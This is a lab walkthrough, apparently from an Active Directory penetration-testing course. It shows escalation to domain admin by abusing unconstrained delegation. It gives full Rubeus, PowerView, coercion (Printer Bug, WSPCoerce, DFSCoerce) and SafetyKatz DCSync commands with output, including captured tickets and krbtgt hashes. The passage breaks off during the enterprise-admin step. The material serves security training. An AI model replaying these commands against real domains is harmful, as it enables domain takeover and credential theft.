




# Learning Objective 15 (Domain Privilege Escalation | Unconstrained Delegation + Coercion + DCSync)

## Tasks

1. **Escalate to DA privileges abusing the unconstrained delegation using coercion and the DCSync attack**
2. **Escalate to EA privileges abusing the unconstrained delegation using coercion and the DCSync attack**

---

## Attack Path Steps

- **Find a Target Server where Unconstrained Delegation is Enabled**
- **Access to the Target Server with a User that has Local Admin Privileges on it**
- **Listen on the Target Server for an incoming TGT from the (Child) DC**
- **Use Coercion to Force Authentication from the (Child) DC to a Service on the Target Server and Capture its TGT**
- **Leverage the Captured TGT to Run a DCSync Attack on the (Child) DC and Gain DA Privileges**
- **Listen on the Target Server for an incoming TGT from the (Parent Root) DC**
- **Use Coercion to Force Authentication from the (Parent) DC to a Service on the Target Server and Capture its TGT**
- **Leverage the Captured TGT to Run a DCSync Attack on the (Parent Root) DC and Gain EA Privileges**

---

## Solution

1. **Escalate to DA privileges abusing the unconstrained delegation using coercion and the DCSync attack**

- **Find a Target Server where Unconstrained Delegation is Enabled**


`cd \AD\Tools`

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\PowerView.ps1`

`Get-DomainComputer -Unconstrained | select -ExpandProperty name`:
```
DCORP-DC
DCORP-APPSRV📌
```

- **Access to the Target Server with a User that has Local Admin Privileges on it**

Since **the prerequisite for elevation using unconstrained delegation is having admin access to the machine**, we need to compromise a user which has local admin access on `dcorp-appsrv`.

Recall that we extracted secrets of `appadmin`, `srvadmin` and `websvc` from `dcorp-adminsrv` (see *Learning Objective 07*).

Let's check if anyone of them have local admin privileges on `dcorp-appsrv`. First, we will try with `appadmin`.




`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:appadmin /aes256:68f08715061e4d0790e71b1245bf20b023d08822d2df85bff50a0e8136ffe4cb /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Ask TGT📌

[*] Got domain: dollarcorp.moneycorp.local
[*] Showing process : True
[*] Username        : 1XKIMQML
[*] Domain          : W5YAGJ7Y
[*] Password        : 2C10B8EJ
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2112
[+] LUID            : 0x2493b32

[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[!] Pre-Authentication required!
[!]     AES256 Salt: DOLLARCORP.MONEYCORP.LOCALappadmin
[*] Using aes256_cts_hmac_sha1 hash: 68f08715061e4d0790e71b1245bf20b023d08822d2df85bff50a0e8136ffe4cb
[*] Building AS-REQ (w/ preauth) for: 'dollarcorp.moneycorp.local\appadmin'
[*] Target LUID : 38353714
[*] Using domain controller: 172.16.2.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x2493b32
[+] Ticket successfully imported!🎟️

  ServiceName              :  krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL
  ServiceRealm             :  DOLLARCORP.MONEYCORP.LOCAL🏛️
  UserName                 :  appadmin🎭 (NT_PRINCIPAL)
  UserRealm                :  DOLLARCORP.MONEYCORP.LOCAL
  StartTime                :  2/16/2025 7:53:18 AM
  EndTime                  :  2/16/2025 5:53:18 PM
  RenewTill                :  2/23/2025 7:53:18 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  BB2GYGp4KWyao6ckv9MPXZ6mubqUoDknMIYba+S8XlU=
  ASREP (key)              :  68F08715061E4D0790E71B1245BF20B023D08822D2DF85BFF50A0E8136FFE4CB
```




`klist`:
```
Current LogonId is 0:0x2493b32

Cached Tickets: (1)

#0>     Client: appadmin🎭 @ DOLLARCORP.MONEYCORP.LOCAL
        Server: krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/16/2025 7:53:18 (local)
        End Time:   2/16/2025 17:53:18 (local)
        Renew Time: 2/23/2025 7:53:18 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

`C:\AD\Tools\InviShell\RunWithPathAsAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1`

`Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local`:
```
dcorp-appsrv📌
dcorp-adminsrv
```

Sweet! We have admin access to the machine that has unconstrained delegation.


`klist`:
```
Current LogonId is 0:0x2493b32

Cached Tickets: (1)

#0>     Client: appadmin🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/16/2025 7:53:18 (local)
        End Time:   2/16/2025 17:53:18 (local)
        Renew Time: 2/23/2025 7:53:18 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

`echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-appsrv\C$\Users\Public\Loader.exe /Y`:
```
Does \\dcorp-appsrv\C$\Users\Public\Loader.exe specify a file name
or directory name on the target
(F = file, D = directory)? F
C:\AD\Tools\Loader.exe
1 File(s) copied
```

`winrs -r:dcorp-appsrv cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\appadmin>
```
🚀

- **Listen on the Target Server for an incoming TGT from the (Child) DC**


`ipconfig`:
```
Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::987a:973e:4221:4e1c%4
   IPv4 Address. . . . . . . . . . . : 172.16.4.217📌
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.4.254
```

`netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.22`



Run Rubeus in listener mode in the winrs session on `dcorp-appsrv`.

`C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args monitor /targetuser:DCORP-DC$ /interval:5 /nowrap`:
```
[*] Action: TGT Monitoring📌
[*] Target user     : DCORP-DC$🖥️
[*] Monitoring every 5 seconds for new TGTs

[...]
```

- **Use Coercion to Force Authentication from the (Child) DC to a Service on the Target Server and Capture its TGT**

Certain Microsoft services and protocols allow any authenticated user to force a machine to connect to a second machine.



- **Coercion: Use the Printer Bug (MS-RPRN)**

On the student VM, exploit the Printer Bug using Print System Remote Protocol (MS-RPRN) to force authentication from `dcorp-dc$`.

The traffic on TCP port 445 from student VM to `dcorp-dc` and `dcorp-dc` to `dcorp-appsrv` is required.


`C:\AD\Tools\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local`:
```
RpcRemoteFindFirstPrinterChangeNotificationEx failed.Error Code 1722 - The RPC server is unavailable.
```

On the Rubeus listener, we can see the TGT of `dcorp-dc$`.

```
[...]

[*] 2/17/2025 10:09:58 AM UTC - Found new TGT:📌

  User                  :  DCORP-DC$🎭@DOLLARCORP.MONEYCORP.LOCAL🏛️
  StartTime             :  2/16/2025 9:08:20 PM
  EndTime               :  2/17/2025 7:07:36 AM
  RenewTill             :  2/23/2025 9:07:36 PM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    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

[*] Ticket cache size: 1
```

Copy the base64 encoded ticket and use it with Rubeus on student VM.


`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`[System.Convert]::FromBase64String("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") | Set-Content -Encoding Byte C:\AD\Tools\dcorpdc-tgt.kirbi`

Run the below command **from an elevated shell** as the SafetyKatz command that we will use for DCSync needs to be run from an elevated process.


`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args describe /ticket:C:\AD\Tools\dcorpdc-tgt.kirbi`:
```
[SNIP]

[*] Action: Describe Ticket📌


  ServiceName              :  krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL
  ServiceRealm             :  DOLLARCORP.MONEYCORP.LOCAL🏛️
  UserName                 :  DCORP-DC$🎭 (NT_PRINCIPAL)
  UserRealm                :  DOLLARCORP.MONEYCORP.LOCAL
  StartTime                :  2/19/2025 9:03:44 PM
  EndTime                  :  2/20/2025 7:02:10 AM
  RenewTill                :  2/26/2025 9:02:10 PM
  Flags                    :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  dhW98gvY76S4nHE7HvDD9Plp/Sp7JLqmGuOmjO4dg+k=
```

`w32tm /stripchart /computer:dcorp-dc.dollarcorp.moneycorp.local /samples:5 /dataonly`:
```
Tracking dcorp-dc.dollarcorp.moneycorp.local [172.16.2.1:123].
Collecting 5 samples.
The current time is 2/20/2025 4:17:25 AM.
04:17:25, +00.0009583s
04:17:27, +00.0018698s
04:17:29, +00.0002144s
04:17:31, +00.0004693s
04:17:33, -00.0001129s
```

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args ptt /ticket:C:\AD\Tools\dcorpdc-tgt.kirbi`:
```
[SNIP]

[*] Action: Import Ticket📌
[+] Ticket successfully imported!🎟️
```

`klist`:
```
Current LogonId is 0:0x4964ae

Cached Tickets: (1)

#0>     Client: DCORP-DC$🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 2/19/2025 21:03:44 (local)
        End Time:   2/20/2025 7:02:10 (local)
        Renew Time: 2/26/2025 21:02:10 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

- **Leverage the Captured TGT to Run a DCSync Attack on the (Child) DC and Gain DA Privileges**

Now, we can run DCSync from this process.

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"`:
```
[SNIP]

mimikatz(commandline) # lsadump::evasive-dcsync /user:dcorp\krbtgt📌
[DC] 'dollarcorp.moneycorp.local' will be the domain
[DC] 'dcorp-dc.dollarcorp.moneycorp.local' will be the DC server
[DC] 'dcorp\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt👤
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/11/2022 9:59:41 PM
Object Security ID   : S-1-5-21-719815819-3726368948-3917688648-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 4e9815869d2090ccfca61c1fe0d23986🔑
    ntlm- 0: 4e9815869d2090ccfca61c1fe0d23986
    lm  - 0: ea03581a1268674a828bde6ab09db837

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6d4cc4edd46d8c3d3e59250c91eac2bd

* Primary:Kerberos-Newer-Keys *
    Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848🔑
      aes128_hmac       (4096) : e74fa5a9aa05b2c0b2d196e226d8820e
      des_cbc_md5       (4096) : 150ea2e934ab6b80

[SNIP]
```
🚩

<🔄 Alternative Step 🔄>

**Coercion: Use the Windows Search Protocol (MS-WSP)**

We can also exploit Windows Search Protocol for abusing unconstrained delegation. We can use WSPCoerce.

Please note that the **Windows Search Service is enabled by default on client machines but not on servers**. For the lab, we have configured it on the domain controller.

Note that we are not using FQDN of `dcorp-dc` with WSPCoerce.

The traffic on TCP port 445 from student VM to `dcorp-dc` and `dcorp-dc` to `dcorp-appsrv` is required.

Setup Rubeus in monitor mode exactly as we did for the Printer Bug.

On the student VM, use the following command to force `dcorp-dc` to connect to `dcorp-appsrv`.


`C:\AD\Tools\Loader.exe -path C:\AD\tools\WSPCoerce.exe -args DCORP-DC DCORP-APPSRV`:
```
[SNIP]

[+] URL/PATH : C:\AD\tools\WSPCoerce.exe Arguments : DCORP-DC DCORP-APPSRV
[+] OleDbException - Error 0x80040718L
[+] Search query successfully sent to the target
```

On the Rubeus listener, we can see the TGT of `dcorp-dc$`.

```
[...]

[*] 2/20/2025 12:58:10 PM UTC - Found new TGT:📌

  User                  :  DCORP-DC$🎭@DOLLARCORP.MONEYCORP.LOCAL🏛️
  StartTime             :  2/19/2025 9:03:44 PM
  EndTime               :  2/20/2025 7:02:10 AM
  RenewTill             :  2/26/2025 9:02:10 PM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIGRTCCBkGgAwIBBaEDAgEWooIFGjCCBRZhggUSMIIFDqADAgEFoRwbGkRPTExBUkNPUlAuTU9ORVlDT1JQLkxPQ0FMoi8wLaADAgECoSYwJBsGa3JidGd0GxpET0xMQVJDT1JQLk1PTkVZQ09SUC5MT0NBTKOCBLYwggSyoAMCARKhAwIBAqKCBKQEggSgEx51H8o6q8qsjiOJ3KJoq547uhVt0oRB+UTg4NZw6VOQyHfp2PTYS1...

[*] Ticket cache size: 1
```

**Coercion: Use the Distributed File System Namespaces Protocol (MS-DFSNM)**

If the target server has DFS Namespaces service running, we can exploit that too for coercion. We can use DFSCoerce.

Note that we are not using FQDN of `dcorp-dc` with DFSCoerce.

The traffic on TCP port 445 from student VM to `dcorp-dc` and `dcorp-dc` to `dcorp-appsrv` is required.

**Note that this is detected by MDI.**


`C:\AD\Tools\DFSCoerce-andrea.exe -t dcorp-dc -l dcorp-appsrv`:
```
[*] Attempting to coerce auth on ncacn_np:dcorp-dc[\PIPE\netdfs] and receive connection on: dcorp-appsrv
[+] DfsCoerce seems successful, check listener running on:dcorp-appsrv
```

On the Rubeus listener, we can see the TGT of `dcorp-dc$`.

```
[...]

[*] 2/20/2025 1:01:55 PM UTC - Found new TGT:📌

  User                  :  DCORP-DC$🎭@DOLLARCORP.MONEYCORP.LOCAL🏛️
  StartTime             :  2/19/2025 9:03:44 PM
  EndTime               :  2/20/2025 7:02:10 AM
  RenewTill             :  2/26/2025 9:02:10 PM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIGRTCCBkGgAwIBBaEDAgEWooIFGjCCBRZhggUSMIIFDqADAgEFoRwbGkRPTExBUkNPUlAuTU9ORVlDT1JQLkxPQ0FMoi8wLaADAgECoSYwJBsGa3JidGd0GxpET0xMQVJDT1JQLk1PTkVZQ09SUC5MT0NBTKOCBLYwggSyoAMCARKhAwIBAqKCBKQEggSgEx51H8o6q8qsjiOJ3KJoq547uhVt0oRB+UTg4NZw6VOQyHfp2PTYS1...

[*] Ticket cache size: 1
```

</🔄 Alternative Step 🔄>

2. **Escalate to EA privileges abusing the unconstrained delegation using coercion and the DCSync attack**

- **Listen on the Target Server for an incoming TGT from the (Parent Root) DC**

To get EA privileges, we need to force authentication from `mcorp-dc`. Run the below command to listen for `mcorp-dc$` tickets on `dcorp-appsrv`.


`klist`:
```
Current LogonId is 0:0x2493b32

Cached Tickets: (1)

#0>     Client: appadmin🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/16/2025 7:53:18 (local)
        End Time:   2/16/2025 17:53:18 (local)
        Renew Time: 2/23/2025 7:53:18 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

`winrs -r:dcorp-appsrv cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\appadmin>
```
🚀


